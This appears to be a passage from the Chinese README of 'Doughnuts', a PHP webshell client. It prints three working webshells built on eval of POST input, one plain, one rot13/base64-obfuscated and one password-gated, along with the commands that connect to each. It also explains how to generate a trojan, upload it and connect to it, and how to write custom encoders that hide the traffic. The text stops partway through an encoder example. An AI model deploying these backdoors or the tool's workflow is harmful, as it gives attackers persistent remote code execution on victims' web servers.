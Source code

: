     - 最平凡的webshell:

        ```php
        //test1.php
        <?php
        error_reporting(0);
        eval($_POST['2333']);
        ?>
      ```
      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      ```
      connect http://localhost/test1.php POST 2333
      ```
      
    - 带解码的webshell:

        ```php
        //test2.php
        <?php
        error_reporting(0);
        eval(str_rot13(base64_decode($_REQUEST['2333'])));
        ?>
      ```
      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      
      ```
      connect http://localhost/test2.php POST 2333 rot13 base64
      ```
      
    - 需要额外参数与解码的webshell:

        ```php
        //test3.php
        <?php
        if(@md5($_POST['a']) == "202cb962ac59075b964b07152d234b70"){  // a=123
        	@eval(base64_decode($_POST['2333']));
        }
        ```

        那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:

        ```
        connect http://localhost/test.php POST 2333 base64 "data:a=123"
        ```

2. 生成webshell:
    1. 运行doughnuts
    2. 执行`generate a.php POST pass salt 1`生成webshell,名字为a.php
    3. 上传a.php 根据提示执行`connect {木马url} POST pass doughnuts-salt`连接webshell

## 自定义编码器
1. 进入doughnuts/encode目录
2. 新建/拷贝一个py文件,起一个名字,以time.py为例
3. 文件中只需要写一个run函数,类似于
```python
from libs.config import alias


@alias(True)
def run(data: str):
    cipher = data
    return cipher
```
4. 参数解释: data是传输的数据,为字符串,cipher为传出的数据,也应该为字符串
5. 重启doughnuts即可使用`se/show_encoders`命令查看自定义的编码器,连接时使用`connect URL 请求方法 密码 编码器名字`即可使用自定义编码器
6. 一个例子,以时间为秘钥的编码器
```python
from libs.config import alias
```